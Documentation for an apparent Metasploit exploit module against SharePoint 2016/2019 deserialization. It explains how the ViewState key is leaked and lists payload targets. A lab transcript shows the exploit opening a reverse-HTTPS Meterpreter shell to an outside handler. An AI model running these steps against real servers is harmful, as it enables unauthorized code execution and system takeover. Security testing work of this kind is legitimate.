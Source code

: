 ## Vulnerable Application

### Description

The `EditingPageParser.VerifyControlOnSafeList` method fails to properly validate user supplied data. This can be
leveraged by an attacker to leak sensitive information in rendered-preview content. This module will leak the ViewState
validation key and then use it to sign a crafted object that will trigger code execution when deserialized.

The check method is unauthenticated and will determine whether or not the target service is vulnerable via the version
number. The exploit however requires authentication in order to trigger the vulnerability. See the documentation for the
[HttpUsername](#httpusername) option below for details on the account.

This vulnerability was patched in May of 2021.

Tested against SharePoint 2019 and SharePoint 2016, both on Windows Server 2016.

### Setup

Follow [Microsoft's
documentation](https://docs.microsoft.com/en-us/sharepoint/install/install-sharepoint-server-2016-on-one-server).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### Windows Command

This executes a Windows command.

### Windows Dropper

This uses a Windows dropper to execute code.

### PowerShell Stager

This uses a PowerShell stager to execute code.

## Options

### HttpUsername

Set this to the SharePoint username. This user must have the `SPBasePermissions.ManageLists` permission on the targeted
SharePoint site. By default, SharePoint users may create their own site where they will have this permissions however
this action **is not automatically performed** by this module.

### HttpPassword

Set this to the SharePoint password.

### VALIDATION_KEY

Set this to the ViewState validation key if you have it.

### COOKIE

Set this to a SharePoint cookie if you have one. This is primarily useful for form auth.

### SP_LIST

Set this to the title of any valid SPlist on the targeted SharePoint site. The `Documents` SPlist is typically a safe
option. The available SPlist items can be seen listed on the `/_layouts/15/viewlsts.aspx` page.

## Scenarios

### SharePoint 2019 on Windows Server 2016

```
msf exploit(windows/http/sharepoint_unsafe_control) > set RHOSTS 192.168.159.46
RHOSTS => 192.168.159.46
msf exploit(windows/http/sharepoint_unsafe_control) > set VHOST shrpnt2019
VHOST => shrpnt2019
msf exploit(windows/http/sharepoint_unsafe_control) > set HttpUsername aliddle
HttpUsername => aliddle
msf exploit(windows/http/sharepoint_unsafe_control) > set HttpPassword Password1
HttpPassword => Password1
msf exploit(windows/http/sharepoint_unsafe_control) > check
[*] 192.168.159.46:80 - The target appears to be vulnerable. SharePoint 16.0.0.10337 is a vulnerable build.
msf exploit(windows/http/sharepoint_unsafe_control) > exploit

[*] Started HTTPS reverse handler on https://192.168.159.128:8443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. SharePoint 16.0.0.10337 is a vulnerable build.
[*] Leaking the ViewState validation key...
[+] ViewState validation key: F894731BF335C2DAB04D70773B5F6BE55EE2C4052B671EE3C6785497A3D29A94
[*] Executing PowerShell Stager for windows/x64/meterpreter/reverse_https
[*] https://192.168.159.128:8443 handling request from 192.168.159.46; (UUID: a5re3jes) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.159.128:8443 -> 127.0.0.1) at 2021-06-08 15:08:59 -0400

meterpreter > getuid
Server username: SHRPNT\SharePoint
meterpreter > sysinfo
Computer        : SHRPNT2019
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : SHRPNT
Logged On Users : 11
Meterpreter     : x64/windows
meterpreter > 
```
